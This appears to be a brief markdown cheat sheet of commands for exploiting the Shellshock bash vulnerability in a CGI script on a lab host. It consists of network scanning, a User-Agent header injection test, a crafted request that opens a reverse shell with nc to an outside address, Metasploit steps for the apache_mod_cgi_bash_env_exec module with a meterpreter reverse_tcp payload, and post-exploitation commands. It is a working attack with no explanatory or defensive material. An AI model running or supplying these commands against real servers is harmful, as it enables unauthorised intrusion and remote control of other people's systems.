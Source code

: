 
## Commands 
- sudo arp-scan -local
- nmap -p- -sV 10.0.2.9
- wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -c 'echo vulnerable'" http://10.0.2.9/cgi-bin/status
- echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80


## msfconsole
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec
- set rhosts 10.0.2.9
- set TARGETURI /cgi-bin/status
- check
- show payloads
- set payload linux/x86/meterpreter/reverse_tcp
- exploit

### When inside
getuid
pwd
ifconfig
sysinfo
shell











